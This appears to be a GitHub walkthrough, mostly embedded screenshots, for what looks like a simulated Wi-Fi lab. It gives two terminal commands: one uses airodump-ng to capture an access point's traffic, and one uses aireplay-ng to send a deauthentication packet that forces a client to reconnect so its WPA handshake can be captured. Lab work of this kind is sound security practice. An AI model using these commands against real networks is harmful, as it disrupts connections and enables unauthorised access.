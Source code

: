 ![image](https://github.com/user-attachments/assets/aa0aa4c1-7d09-4d90-8bc4-e024c386b328)



![image](https://github.com/user-attachments/assets/7307968d-00dd-423a-a945-b0979d771236)


<br>

![image](https://github.com/user-attachments/assets/04d2b174-777b-4b4f-94b5-77defd860df4)

<br>


![image](https://github.com/user-attachments/assets/d1550273-8ff2-4e3c-857f-4bc507b46330)


<br>

<p>First Terminal</p>
<pre><code>sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2</code></pre>

<br>

<p>Second Terminal</p>
<pre><code>sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2</code></pre>


![image](https://github.com/user-attachments/assets/c7bc0365-2c55-459b-aede-d50706f4a8ea)


<br>

![image](https://github.com/user-attachments/assets/41c2cbcf-34a1-4a64-a0e0-dfee558fd7a5)

<br>

![image](https://github.com/user-attachments/assets/db211acb-f2a7-4982-9d75-92211c568871)

<br>

![image](https://github.com/user-attachments/assets/0606a9e1-fcad-4b80-ae34-63cb21109c18)


<br>

![image](https://github.com/user-attachments/assets/d0092da7-a6ad-4cc6-8194-af30d7d14596)

<br>

![image](https://github.com/user-attachments/assets/5ebe729b-d9b5-493a-ace2-55c30e5f44d0)



<p>I will do it all over again ...</p>




